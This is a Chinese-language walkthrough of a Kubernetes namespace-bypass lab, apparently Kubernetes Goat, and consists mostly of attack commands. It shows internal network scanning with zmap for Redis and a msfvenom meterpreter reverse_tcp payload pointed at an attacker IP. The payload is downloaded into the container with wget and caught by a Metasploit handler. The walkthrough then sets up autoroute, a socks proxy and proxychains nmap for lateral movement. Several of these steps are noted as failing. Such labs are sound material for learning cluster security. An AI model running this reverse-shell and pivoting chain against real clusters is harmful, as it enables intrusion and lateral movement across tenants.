Kubernetes namespaces bypass

2023年11月25日

Kubernetes 命名空间绕过

这是 Kubernetes 世界中的一大误解。大多数人认为，当 Kubernetes 中存在不同的命名空间并且部署和管理资源时，它们是安全的，并且无法相互访问。许多现实世界的多租户环境正在被利用，因此关键资源在内部暴露。默认情况下，Kubernetes 带有扁平网络模式，如果我们需要进行分段，那么我们必须通过创建某些边界（如 NSP（网络安全策略）等）来创建它们。在此方案中，我们将了解如何绕过命名空间并访问其他命名空间资源。



让我们使用以下命令在默认命名空间中运行hacker-container

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```



执行之后开始，新开一个shell





 

这样即可



 

```shell
kubectl exec -it hacker-container-697d665799-tfjv5 -- /bin/sh
```

 

 

1、信息收集

```shell
ip route 
```

显示和操作 Linux 系统中的内核路由表



 

```shell
ifconfig
```



 

```shell
printenv
```

是一个命令行工具，用于打印环境变量的值。在 Linux 或类 Unix 操作系统中，环境变量存储有关系统和用户环境的信息，例如路径、用户信息等。

 

 

 

在 Kubernetes 中，IP 地址范围 10.0.0.0/8 常常被用作集群内部的 Pod 网络的地址空间\[但是我这里是169.254.1.1/8\]


 

也就是说我们可以通过扫描这个ip段，来获取内网信息，进行横向

修改zmap配置文件/etc/zmap/blacklist.conf

删除原来文件

```shell
rm -rf /etc/zmap/blacklist.conf
```

```shell
cat > /etc/zmap/blacklist.conf << EOF
# From IANA IPv4 Special-Purpose Address Registry
# http://www.iana.org/assignments/iana-ipv4-special-registry/iana-ipv4-special-registry.xhtml
# Updated 2013-05-22

0.0.0.0/8           # RFC1122: "This host on this network"
#10.0.0.0/8          # RFC1918: Private-Use
100.64.0.0/10       # RFC6598: Shared Address Space
127.0.0.0/8         # RFC1122: Loopback
169.254.0.0/16      # RFC3927: Link Local
172.16.0.0/12       # RFC1918: Private-Use
192.0.0.0/24        # RFC6890: IETF Protocol Assignments
192.0.2.0/24        # RFC5737: Documentation (TEST-NET-1)
192.88.99.0/24      # RFC3068: 6to4 Relay Anycast
192.168.0.0/16      # RFC1918: Private-Use
198.18.0.0/15       # RFC2544: Benchmarking
198.51.100.0/24     # RFC5737: Documentation (TEST-NET-2)
203.0.113.0/24      # RFC5737: Documentation (TEST-NET-3)
240.0.0.0/4         # RFC1112: Reserved
255.255.255.255/32  # RFC0919: Limited Broadcast

# From IANA Multicast Address Space Registry
# http://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml
# Updated 2013-06-25

224.0.0.0/4         # RFC5771: Multicast/Reserved
EOF
```

 

开始扫描\[扫描开发6379端口服务器\]：

```shell
zmap -p 6379 169.254.1/8 -o results.csv
```



 

扫描会一有点久



这些ip就是存在redis

```
redis-cli -h 10.12.0.2
```

但是我这连接来时失败，\[官方截图\]



 

 

\[思路，我想通过msf添加路由上线，但是失败\]这里我们直接使用kali msf木马

判断操作系统位数



```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.86.218 LPORT=4444 -f elf \> 4444.elf
```



使用python启一个http服务下载

```
python3 -m http.server
```



```
下载木马：

wget <http://192.168.86.218:8000/4444.elf>

chmod +x 4444.elf 给执行权限

启动msf

msfconsole
```



```
use exploit/multi/handler

set payload linux/x64/meterpreter/reverse_tcp

options 查看设置
```



```
set lhost 192.168.86.218 监听ip

exploit 执行
```

容器处执行



 



查看路由

```
arp -a
```

添加路由\[这里添加的路由错误的\]

```
run post/multi/manage/autoroute
```



挂起会话

```
background
```

查看路由表

```
route print
```



 

设置socks代理

```
use auxiliary/server/socks_proxy

set srvhost 0.0.0.0

set srvport 1115

run
```



修改配置文件

```
sudo vim /etc/proxychains4.conf
```



nmap走代理进行扫描\[失败\]

```
proxychains4 nmap -sT -Pn 169.254.1/8
```

 

 

 
